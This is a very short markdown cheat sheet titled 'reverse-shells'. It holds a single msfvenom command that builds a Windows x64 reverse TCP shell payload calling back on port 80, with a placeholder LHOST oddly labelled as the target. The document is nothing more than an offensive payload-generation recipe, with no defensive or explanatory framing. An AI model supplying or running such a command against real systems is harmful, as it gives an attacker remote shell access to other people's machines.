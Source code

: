 # reverse-shells

## using msfvenom

```text
msfvenom -p windows/shell/reverse_tcp LHOST=target.ip LPORT=80 --platform windows -a x64
```

